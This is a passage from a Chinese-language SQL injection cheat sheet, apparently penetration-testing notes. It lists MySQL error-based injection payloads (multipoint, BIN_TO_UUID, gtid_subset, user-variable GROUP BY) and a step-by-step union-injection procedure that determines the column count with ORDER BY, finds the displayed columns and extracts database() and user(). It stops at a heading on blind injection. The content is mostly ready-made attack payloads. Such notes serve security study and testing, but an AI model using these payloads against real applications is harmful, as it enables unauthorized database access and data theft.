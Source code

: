 #### 8、通过multipoint ()报错(5.5.47上通过，5.7.17上则不行)

multipoint((select * from (select * from (select version())a)b))

#### 9、通过UUID()报错 8.0.0以上可用

BIN_TO_UUID((SELECT version()))

#### 10、通过UUID()报错 (5.7以上通过)

select gtid_subset(version(),1)

#### 11、用户变量报错

```
select min(@a:=1) from information_schema.tables group by concat(user(),@a:=(@a+1)%2)
```

### 联合注入

UNION操作符用于合并两个或多个SELETC语句的结果集

注意事项：

1. 只有最后一个SELECT 语句允许有ORDER BY；

   select * from users order by id union select 1,2,3;错误

2. 只有最后一个SELECT语句允许有LIMIT

   select * from users limit 0,1 union select 1,2,3 错误

3. 只要UNION连接的几个查询字段数一样且列的数据类型转换没有问题，就可以查询出结果

4. 注入页面有回显

#### 注入流程

1. 判断是否存在注入点

2. 利用order by 确定列数

   ```
   id=1 order by 1 #正常
   id=1 order by 5 #错误
   id=1 order by 4 #正常，说明有4列
   ```

3. 判断显示位

   id=-1 union select 1,2,3,4 

   #必须指定id值是一个不存在的值，页面才能显示后面select结果,找到页面显示的数字确定显示位

4. 在显示位插入要查询的任何语句，如下示例

   ```
   id=-1 union select 1,database(),user(),4
   ```

### 盲注

